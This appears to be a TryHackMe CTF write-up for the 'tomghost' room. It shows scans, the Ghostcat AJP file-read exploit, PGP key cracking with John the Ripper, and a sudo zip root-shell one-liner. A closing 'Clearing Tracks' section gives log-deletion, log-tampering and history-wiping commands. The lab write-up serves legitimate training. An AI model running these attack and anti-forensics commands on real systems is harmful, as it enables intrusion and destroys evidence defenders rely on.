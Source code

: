 ```yaml
---
title: "THM:tomghost"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/tomghost"
category: "CTF"
tags: ctf,nmap,gobuster,dirbuster,session,broken-authentication,javascript,apache,ubuntu,john,gpg2john,linpeas,privesc,cron
breadcrumbs:
  - text: Home
    url: /
  - text: Writeups
    url: /writeups/
  - text: tomghost
---
```

tomghost

URL: [https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost) [Easy]


<hr>

## Reconnaissance

Description of the room:

> Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -sC -sV x.x.x.x`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://x.x.x.x`

Interesting folders found on `:8080`:

```python
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Interesting folders found on `:8009`:

This one is odd. In a browser, it says:

```
This page isn’t working
10.10.58.18 didn’t send any data.
ERR_EMPTY_RESPONSE
```

Which seems like there is a web server there, but it just didn't respond with anything. However, over `http` and `https`, `gobuster` couldn't connect to the web server:

```python
Error: error on running gobuster: unable to connect to http://10.10.58.18:8009/: Get "http://10.10.58.18:8009/": EOF
```

Also see: [gobuster-8080.log](gobuster-8080.log) / [gobuster-8009.log](gobuster-8009.log)

### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x -p 8080`

Not much of anything interesting info found on `:8080`:

```python
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /favicon.ico: identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community. See: https://en.wikipedia.org/wiki/Favicon
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2104
+ /manager/manager-howto.html: Tomcat documentation found. See: CWE-552
+ /manager/html: Default Tomcat Manager / Host Manager interface found.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found.
+ /manager/status: Default Tomcat Server Status interface found.
+ /host-manager/status: Default Tomcat Server Status interface found.
+ 8074 requests: 0 error(s) and 13 item(s) reported on remote host
```

Interesting info found on `:8009`:

Similar situation with `gobuster`, Nikto couldn't connect.

```python
- Nikto v2.5.0
---------------------------------------------------------------------------
---------------------------------------------------------------------------
+ 0 host(s) tested
```

Also see: [nikto-8080.log](nikto-8080.log) / [nikto-8009.log](nikto-8009.log)

## Gaining Access

I consulted [this writeup](https://medium.com/@sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23) which explains that "Ghostcat" (the name of the room) is the name of a vulnerability in Apache Jserv Protocol (AJP) that is running on port 8009.

### Unprivileged Access

By using the `ajpShooter.py` exploit from [here](https://github.com/00theway/Ghostcat-CNVD-2020-10487), we can run a command line like this:

```bash
python3 ajpShooter.py http://10.10.58.18:8080/demo 8009 /WEB-INF/web.xml read
```

That then shows you a plausible username:password combination. When you try that combination over SSH, you can get in with unprivileged access.

> ***Note:** Looking around there is a `merlin` folder until `/home/` with a readable folder structure. Not writable though. Also note that not much came up in linpeas either.*


## Privilege Escalation

This is somewhat tedious to put together. The kill-chain is:

1. **Download** the `credential.pgp` and `tryhackme.asc` to your local workstation (ex: run `python3 -m http.server` on the target, to serve those files; retrieve them with a browser)
1. **Convert** The `tryhackme.asc` file is a PGP private key. Run `gpg2john ./tryhackme.asc > ./tryhackme.asc.hash` to get it into John the Ripper format.
1. **Run John the Ripper** with the RockYou wordlist to crack the password for that private key (ex: run `john --wordlist=/opt/share/wordlist/rockyou.txt ./tryhackme.asc.hash`)
1. **Import that password into PGP** with: `gpg --import ./tryhackme.asc` - it will prompt you for a password.
1. **Decrypt the `credential.pgp` file** with `gpg --decrypt ./credential.pgp` - ir will prompt you for that same password you got from John the Ripper.
1. **SSH as `merlin`** Next, that credential that you just decrypted, is for `merlin`. So, SSH in now as `merlin`.
1. **Check `sudo`** As `merlin`, if we run `sudo -l` to see what we can do as sudo, we see that we can run `/usr/bin/zip`. This is notable because the `zip` program allows you to pass it a `--unzip-command "<command to run>"`. So, if we're running as `root` via `sudo` at that time, and if the `--unzip-command` opens a shell, we should get a root shell.

Putting that all together, we can finally run something like this, logged in as `merlin`:

```bash
sudo zip archive ./user.txt -T --unzip-command="sh -c /bin/bash"
```

We are now running as root and can get our final flag from the `/root/` folder.


## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/merlin/.bash_history`
>  
> `cat /dev/null > /home/skyfrick/.bash_history`

## Summary

Completed: [2023-07-22 21:25:01]